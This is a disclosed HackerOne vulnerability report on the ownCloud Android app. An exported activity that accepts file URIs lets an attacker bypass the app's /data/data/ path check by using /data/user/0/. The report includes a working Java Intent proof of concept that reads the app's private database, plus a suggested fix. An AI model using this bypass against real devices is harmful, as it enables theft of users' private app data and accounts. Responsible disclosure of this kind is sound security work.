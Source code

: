 # Possible to steal any protected files on Android

## Report Details
- **Report ID**: 377107
- **URL**: https://hackerone.com/reports/377107
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-07-04T13:55:25.764Z
- **Disclosed**: 2021-11-15T08:40:27.842Z

## Reporter
- **Username**: shell_c0de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: owncloud

## Vulnerability Information
Hi. I have found an issue which allows to retrieve any files from `/data/data/com.owncloud.android/*` directory. The problem is in exported activity `com.owncloud.android.ui.activity.ReceiveExternalFilesActivity` which accepts a URI to download files. I see that you've added verification path `/data/data/`
You can bypass the verification using specifying an alternative path: `/data/user/0/com.owncloud.android/` 
Malicious code:
```java
        StrictMode.VmPolicy.Builder builder = new StrictMode.VmPolicy.Builder();
        StrictMode.setVmPolicy(builder.build());
        Intent intent = new Intent("android.intent.action.SEND");
        intent.setClassName("com.owncloud.android", "com.owncloud.android.ui.activity.ReceiveExternalFilesActivity");
        intent.setType("*/*");
        intent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
        intent.putExtra("android.intent.extra.STREAM", Uri.parse("file:///data/user/0/com.owncloud.android/databases/filelist"));
        startActivity(intent);
```
###How to Fix
Add an alternative path to the folder check

## Impact

This vulnerability can get a complete account, malware can access everything, including, file database and history.

## Attachments
- owncloud_PoC.apk
- 2VkPnMdf2YY.jpg
- td0jJcli45Y.jpg
